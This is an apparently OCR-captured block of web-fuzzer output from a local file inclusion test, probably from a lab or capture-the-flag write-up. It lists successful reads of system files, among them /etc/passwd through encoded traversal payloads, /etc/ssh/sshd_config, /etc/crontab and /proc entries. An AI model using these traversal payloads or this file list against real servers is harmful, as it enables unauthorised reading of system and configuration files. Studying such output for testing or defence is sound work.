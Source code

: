 ```bash
000000250:   200        182 L    530 W      6040 Ch     "/etc/nsswitch.conf"                                                                                                         
000000249:   200        181 L    565 W      6263 Ch     "/etc/netconfig"                                                                                                             
000000246:   200        169 L    503 W      5723 Ch     "/etc/motd"                                                                                                                  
000000248:   200        191 L    636 W      6621 Ch     "/etc/mysql/my.cnf"                                                                                                          
000000236:   200        515 L    1504 W     14725 Ch    "/etc/init.d/apache2"                                                                                                        
000000209:   200        179 L    573 W      6174 Ch     "/etc/hosts.deny"                                                                                                            
000000208:   200        172 L    519 W      5870 Ch     "/etc/hosts.allow"                                                                                                           
000000205:   200        170 L    488 W      5646 Ch     "/etc/hosts"                                                                                                                 
000000237:   200        174 L    498 W      5871 Ch     "/etc/issue"                                                                                                                 
000000138:   200        229 L    529 W      6409 Ch     "/etc/group"                                                                                                                 
000000135:   200        177 L    571 W      6300 Ch     "/etc/fstab"                                                                                                                 
000000129:   200        180 L    568 W      6513 Ch     "/etc/apt/sources.list"                                                                                                      
000000131:   200        184 L    652 W      6524 Ch     "/etc/crontab"                                                                                                               
000000121:   200        387 L    1569 W     12916 Ch    "/etc/apache2/apache2.conf"                                                                                                  
000000498:   200        192 L    631 W      7052 Ch     "/proc/interrupts"                                                                                                           
000000509:   200        219 L    601 W      6823 Ch     "/proc/self/status"                                                                                                          
000000505:   200        166 L    526 W      6044 Ch     "/proc/net/tcp"                                                                                                              
000000506:   200        168 L    482 W      5591 Ch     "/proc/partitions"                                                                                                           
000000504:   200        165 L    495 W      5827 Ch     "/proc/net/route"                                                                                                            
000000500:   200        215 L    617 W      6916 Ch     "/proc/meminfo"                                                                                                              
000000502:   200        165 L    483 W      5680 Ch     "/proc/net/arp"                                                                                                              
000000497:   200        216 L    800 W      7449 Ch     "/proc/cpuinfo"                                                                                                              
000000501:   200        186 L    606 W      7218 Ch     "/proc/mounts"                                                                                                               
000000503:   200        166 L    516 W      5893 Ch     "/proc/net/dev"                                                                                                              
000000652:   500        0 L      0 W        0 Ch        "/var/log/apache2/error.log"                                                                                                 
000000648:   500        0 L      0 W        0 Ch        "/var/log/apache2/access.log"                                                                                                
000000758:   200        194 L    542 W      6389 Ch     "/var/www/html/.htaccess"                                                                                                    
000000741:   200        165 L    505 W      45765 Ch    "/var/log/wtmp"                                                                                                              
000000929:   200        200 L    519 W      7547 Ch     "///////../../../etc/passwd"                                                                                                 
000000016:   200        200 L    519 W      7562 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"                                          
000000422:   200        284 L    850 W      8701 Ch     "/etc/ssh/sshd_config"                                                                                                       
```